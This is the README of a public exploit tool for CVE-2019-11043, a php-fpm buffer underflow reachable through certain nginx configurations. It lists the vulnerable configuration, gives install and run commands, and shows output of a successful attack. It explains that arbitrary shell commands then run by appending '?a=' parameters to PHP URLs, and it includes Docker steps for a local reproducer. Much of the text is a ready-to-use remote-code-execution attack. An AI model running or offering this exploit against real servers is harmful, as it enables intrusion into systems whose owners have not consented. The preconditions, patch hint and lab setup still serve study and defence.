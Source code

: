 # PHuiP-FPizdaM

## What's this

This is an exploit for a bug in php-fpm (CVE-2019-11043). In certain nginx + php-fpm configurations, the bug is possible to trigger from the outside. This means that a web user may get code execution if you have vulnerable config (see [below](#the-full-list-of-preconditions)).

## What's vulnerable

If a webserver runs nginx + php-fpm and nginx have a configuration like

```
location ~ [^/]\.php(/|$) {
  ...
  fastcgi_split_path_info ^(.+?\.php)(/.*)$;
  fastcgi_param PATH_INFO       $fastcgi_path_info;
  fastcgi_pass   php:9000;
  ...
}
```

which also lacks any script existence checks (like `try_files`), then you can probably hack it with this sploit.

#### The full list of preconditions
1. Nginx + php-fpm, `location ~ [^/]\.php(/|$)` must be forwarded to php-fpm (maybe the regexp can be stricter, see [#1](https://github.com/neex/phuip-fpizdam/issues/1)).
2. There must be a `PATH_INFO` variable assignment via statement `fastcgi_param PATH_INFO $fastcgi_path_info;`. Also `SCRIPT_FILENAME` must be set using `fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;` (there might be a constant path instead of `$document_root`). At first, we thought these are always present in the `fastcgi_params` file, but it's not true.
3. There must be a way to set `PATH_INFO` to an empty value. This exploit assumes that `fastcgi_split_path_info` directive is there and contains a regexp starting with `^` and ending with `$`, so it tries to break the regexp with a newline character.
4. This particular exploit assumes that `PATH_INFO` is set after `REQUEST_URI` in the config.
5. No file existence checks like `try_files $uri =404` or `if (-f $uri)`. If Nginx drops requests to non-existing scripts before FastCGI forwarding, our requests never reach php-fpm. Adding this is also the easiest way to patch.
6. This exploit works only for PHP 7+, but the bug itself is present in earlier versions (see [below](#about-php5)).

## How to run

Install it using
```
go get github.com/neex/phuip-fpizdam
```

If you get strange compilation errors, make sure you're using go >= 1.13. Run the program using `phuip-fpizdam [url]` (assuming you have the `$GOPATH/bin` inside your `$PATH`, otherwise specify the full path to the binary). Good output looks like this:

```
2019/10/01 02:46:15 Base status code is 200
2019/10/01 02:46:15 Status code 500 for qsl=1745, adding as a candidate
2019/10/01 02:46:15 The target is probably vulnerable. Possible QSLs: [1735 1740 1745]
2019/10/01 02:46:16 Attack params found: --qsl 1735 --pisos 126 --skip-detect
2019/10/01 02:46:16 Trying to set "session.auto_start=0"...
2019/10/01 02:46:16 Detect() returned attack params: --qsl 1735 --pisos 126 --skip-detect <-- REMEMBER THIS
2019/10/01 02:46:16 Performing attack using php.ini settings...
2019/10/01 02:46:40 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2019/10/01 02:46:40 Trying to cleanup /tmp/a...
2019/10/01 02:46:40 Done!
```

After this, you can start appending `?a=<your command>` to all PHP scripts (you may need multiple retries).

## Playground environments

### Using Docker

If you want to reproduce the issue or play with the exploit locally through Docker, do the following:

1. Clone this repo and go to the `reproducer` directory.
2. Create the docker image using `docker build -t reproduce-cve-2019-11043 .`. It takes a long time as it internally clones the php repository and builds it from the source. However, it will be easier this way if you want to debug the exploit. The revision built is the one right before the fix.
2. Run the docker using `docker run --rm -ti -p 8080:80 reproduce-cve-2019-11043`.
3. Now you have http://127.0.0.1:8080/script.php, which is an empty file.
4. Run the exploit using `phuip-fpizdam http://127.0.0.1:8080/script.php`
5. If everything is ok, you'll be able to execute commands by appending `?a=` to the script: http://127.0.0.1:8080/script.php?a=id. Try multiple times as only some of php-fpm workers are infected.

### Using Docker Compose
1. Clone this repo and run both of containers.
```bash
docker-compose up -d --build
```
2. Run the exploit using
```bash
docker-compose run attacker sh
bash ./phuid-fpizdam http://reproducer/script.php
```
3. If everything is ok, you'll be able to execute commands by appending `?a=` to the script: http://127.0.0.1:8080/script.php?a=id. Try multiple times as only some of php-fpm workers are infected.


## About PHP5

The buffer underflow in php-fpm is present in PHP version 5. However, this exploit makes use of an optimization used for storing FastCGI variables, [_fcgi_data_seg](https://github.com/php/php-src/blob/5d6e923/main/fastcgi.c#L186). This optimization is present only in php 7, so this particular exploit works only for php 7. There might be another exploitation technique that works in php 5.

## Credits

Original anomaly discovered by [d90pwn](https://twitter.com/d90pwn) during Real World CTF. Root clause found by Emil Lerner as well as the way to set php.ini options. Final php.ini options set is found by [beched](https://twitter.com/ahack_ru).

## License

This exploit is distributed under terms of [MIT License](LICENSE.txt).
